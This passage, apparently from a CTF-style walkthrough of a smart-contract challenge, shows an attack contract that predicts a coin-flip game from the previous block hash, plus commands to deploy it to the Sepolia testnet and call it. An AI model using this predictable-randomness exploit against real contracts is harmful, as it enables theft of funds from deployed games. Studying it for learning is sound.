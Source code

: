 ```solidity
  }

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash != blockValue) {
      lastHash = blockValue;
      uint256 coinFlip = blockValue / FACTOR;
      bool side = coinFlip == 1 ? true : false;
      coinFlipTarget.flip(side);
      consecutiveWins++;
    }
  }
}
```

Let’s deploy this contract :

```solidity
forge create --rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY src/03.sol:CoinFlipAttack --constructor-args $INSTANCE_03
```

Now we can call our `attack()` function with cast send:

```solidity
cast send $ATTACKER_03 --rpc-url $SEPOLIA_RPC_URL --private-key $PRIVATE_KEY "attack()"
```

We can also look up the current consecutive wins on the attacked contract using the following cast command:

```solidity
cast call $INSTANCE_03 --rpc-url $SEPOLIA_RPC_URL "consecutiveWins()"
```
